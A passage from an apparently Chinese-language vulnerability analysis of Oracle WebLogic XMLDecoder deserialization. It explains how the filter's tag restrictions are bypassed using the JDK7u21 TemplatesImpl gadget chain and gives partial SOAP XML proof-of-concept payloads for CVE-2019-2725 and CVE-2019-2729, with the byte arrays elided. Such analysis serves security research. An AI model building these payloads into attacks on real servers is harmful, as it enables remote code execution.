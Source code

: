                     if(qName.equalsIgnoreCase("void")) {
                       for(int attClass = 0; attClass < attributes.getLength(); ++attClass) {                     if(!"index".equalsIgnoreCase(attributes.getQName(attClass))) {
                           throw new IllegalStateException("Invalid attribute for element void:" + attributes.getQName(attClass));
                          }
                       }
                    }
                     if(qName.equalsIgnoreCase("array")) {
                       String var9 = attributes.getValue("class");
                       if(var9 != null && !var9.equalsIgnoreCase("byte")) {
                          throw new IllegalStateException("The value of class attribute is not valid for array element.");
                       }
    ```
    
    解释一下就是 ban 掉了object、new、method标签，如果使用void标签，只能有index属性，如果使用array标签，且标签使用的是class属性，则它的值只能是byte。
    
    那么我们需要找一个参数是 byte 类型的类尝试反序列化，这里采用的 jdk7u21的那条链。
    
    7u21 的命令执行部分是将 Templateslmpl 对象的 \_bytecodes 动态生成为对象，于是该类的static block和构造函数便会自动执行，造成命令执行。
    
    ##### poc (部分):
    
    ```xml
    <?xml version="1.0" encoding="utf-8"?>
    <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
          <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
              <java><class><string>oracle.toplink.internal.sessions.UnitOfWorkChangeSet</string><void><array class="byte" length="8970">
                  <void index="0">
                  <byte>-84</byte>
                  ...
                  ...
              </array></void></class>
              </java>
          </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
    </soapenv:Envelope>
    ```
- ### CVE-2019-2729 (CVE-2019-2725 绕过)
    
    具体挖掘细节可参考 <https://xz.aliyun.com/t/5448> ,这里给出最后结论.
    
    ##### poc:(jdk1.6可行)
    
    ```xml
    <?xml version="1.0" encoding="utf-8"?>
    <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
      <soapenv:Header>
          <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
              <java>
                  <array method="forName">
                      <string>oracle.toplink.internal.sessions.UnitOfWorkChangeSet</string>
                      <void>
                          <array class="byte" length="3748">
                              ...
                          </array>
                      </void>
                  </array>
              </java>
          </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
    </soapenv:Envelope>